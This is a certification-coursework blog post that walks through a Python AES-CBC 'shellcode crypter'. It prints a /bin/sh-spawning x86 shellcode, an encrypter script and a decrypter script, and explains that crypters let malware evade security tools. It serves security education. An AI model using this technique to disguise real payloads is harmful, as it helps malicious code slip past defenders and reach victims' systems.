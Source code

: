 ```yaml
---
layout: single
title: "SLAE: Custom SHellcode Crypter"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-25
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_7)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

Our 7th and final assignment for SLAE32 we will create a custom shellcode crypter.

Crypters are used to encrypt malware for the purpose of security evasion. It allows malware to masquerade as harmless code until such time it is executed.

The encryption method I have chosen is "Rijndael" (After the designers Vincent Rijmen and Joan Daemen) AKA Advanced Encryption Standard.

Advanced cryptography is a bit beyond my current skill level, however I will attempt to provide a low-level explanation.

AES is a form of symmetric encryption; symmetric meaning the same key used to encrypt is used to decrypt. To contrast this, RSA (typically used for remote connections) is asymmetric, using a public (server) and private (client) key. So in RSA, if you were to encrypt with the public key, the private key would be required to decrypt and vice versa. However with AES the same key that was used in encryption will need to be fed for decryption.

AES256 encrypts in 14 rounds, with 1.1 x 10^77 possible combinations.
Rather than encrypting a string, AES takes the bytes and lays them out in columns within a 4x4 grid.

![grid](/assets/images/SLAE_7/1.JPG) source [computerphile](https://www.youtube.com/watch?v=O4xNJsjtN6E)

It then works through a varying number of rounds where it will xor information against part of the key, substitute bytes and finally permute until we have an incredibly tough cypher.

![AES_round](/assets/images/SLAE_7/2.JPG)

Now that I have finished procrastinating, it is time to look at writing our own.
Luckily for me, Python has modules that can aid this task.
I read up on what is required at the following link: [https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/](https://www.novixys.com/blog/using-aes-encryption-decryption-python-pycrypto/)


```
from Crypto.Cipher import AES
import sys

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80") # must be divisible by 16

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes

if len(key)!=16:
	print("[!]key MUST be 16 bytes\n[!]Exiting")
	sys.exit()
if len(iv)!=16:
	print("[!]iv MUST be 16 bytes\n[!]Exiting")
	sys.exit()
cipher = AES.new(key, AES.MODE_CBC, iv)


if len(shellcode)%16 !=0:
	print("[!]shellcode not divisible by 16, padding")
	remainder = len(shellcode)%16 #figure out how many extra chars there are stopping it being divisible by 16
	padnumber = 16 - remainder #figure out how many characters we need to make up the difference
	shellcode = shellcode + ('1' * padnumber) #add exactly that many chars to the end of shellcode, thus making it divisible by 16

print("Padded by "+str(padnumber))
encrypt = cipher.encrypt(shellcode) # use cypher to encrypt ourshellcode against specified key and iv
encoded = ""
for x in bytearray(encrypt): #process code to give us shellcode as we have done in previous assignments
	  encoded += '\\x'
	  encrypt = '%02x' % x
	  encoded += encrypt

print("Encrypted shellcode: "+encoded)
```
Running our code as below gives us our encrypted string

![encrypted](/assets/images/SLAE_7/3.JPG)

Taking the encrypted string and placing it in our decoder before running it yields the exact same shellcode we originally placed in our encrypter script - thus, the string has been decrypted.

```
from Crypto.Cipher import AES
 
shellcode = ("\xc9\xc9\x0f\xaf\xf8\x6c\x82\x69\xa6\x95\x25\x1e\xdd\x5e\xbc\x79\xd0\xec\xdb\xa5\x81\xa0\xfe\x55\x56\x6d\xe8\x7a\xed\x08\xc9\x99")

key = ("SecurityTubeSLAE") # must be 16 bytes

iv = ("l0lZ") * 4 # must be 16 bytes
 
cipher = AES.new(key, AES.MODE_CBC, iv)
padnumber=int("7") 
decrypt = cipher.decrypt(shellcode)
encoded = ""     

for x in bytearray(decrypt):
	  encoded += '\\x'
	  dec = '%02x' % x#(x & 0xff)
	  encoded += dec
 
print encoded[0:-padnumber*4]
```

![decrypted](/assets/images/SLAE_7/4.JPG)

